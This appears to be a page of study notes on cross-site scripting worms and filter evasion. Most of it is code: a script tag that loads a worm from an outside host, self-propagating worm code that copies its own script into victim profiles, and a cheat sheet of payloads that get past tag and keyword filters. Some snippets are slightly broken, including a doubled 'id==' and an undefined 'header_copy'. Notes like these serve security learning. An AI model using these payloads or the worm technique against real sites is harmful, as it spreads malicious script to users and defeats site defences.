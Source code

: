 Src/Link Approach:
- If the worm is included using the `src` attribute in the `<script>` tag
- can simply copy the `<script>` tag to the victim’s profile, essentially infecting the profile with the same worm.
```js
<script type="text/javascript" src="http://example.com/xss_worm.js">
</script>
```



```js
<script id=="worm" type="text/javascript">

// construct a copy of itself
var selfProp = "<script id==\"worm\" type=\"text/javascript\">"
                .concat(document.getElementById("worm").innerHTML)
                .concat("</").concat("script>");

// main code ...

</script>
```

self-propagation for alert

```js
<script id=="worm" type="text/javascript">
var copy = document.getElementById("worm").innerHTML;
header = "<script id==\"worm\" type=\"text/javascript\">";
tail = "</" + "script>";
alert(header_copy+tail);
</script>
```

---

# XSS Filter Evasion Cheat Sheet


## find different tag to use

```js
// tag <script> <body> onclik onAnything been blocked

<div style="background:url('javascript:alert(1)')">
```


## strips out word `javascript`

```js
// change line
<div style="background:url('java
            script:alert(1)')">
```
